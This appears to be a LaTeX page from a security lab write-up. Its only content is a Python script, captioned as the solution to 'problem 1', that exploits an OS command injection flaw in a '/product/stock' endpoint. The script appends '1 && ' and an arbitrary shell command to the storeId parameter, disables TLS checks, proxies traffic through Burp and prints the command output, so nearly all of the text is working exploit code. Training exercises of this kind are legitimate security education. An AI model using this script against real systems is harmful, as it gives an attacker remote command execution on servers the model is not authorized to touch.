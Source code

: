 \documentclass{article}
\begin{document}
\begin{description}
\begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 1}, showspaces=false,showstringspaces=false]
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    # Send the requests through Burp to be able to examine them
    proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

    def run_command(url: str, command: str):
        stock_path = '/product/stock'
        command_injection = '1 && ' + command
        params = {'productId': '1', 'storeId': command_injection}
        r = requests.post(url + stock_path, data=params, verify=False, proxies=proxies)
        if (len(r.text) > 3):
            print(f"(+) Command injection succesful!")
            print(f"(+) Output of command:\n{r.text}")
        else:
            print("(-) Command injection failed.")

    def main():
        # Check the number of arguments to the program is correct
        if len(sys.argv) != 3:
            print(f"(-) Usage: {sys.argv[0]} <url> <command>")
            print(f"(-) Example: {sys.argv[0]} www.example.com whoami")
            sys.exit(1)

        url = sys.argv[1]
        command = sys.argv[2]
        print(f"(+) Exploiting command injection...")
        run_command(url, command)

    if __name__ == '__main__':
        main()
  \end{lstlisting}
    
\end{description}

\newpage
\end{document}
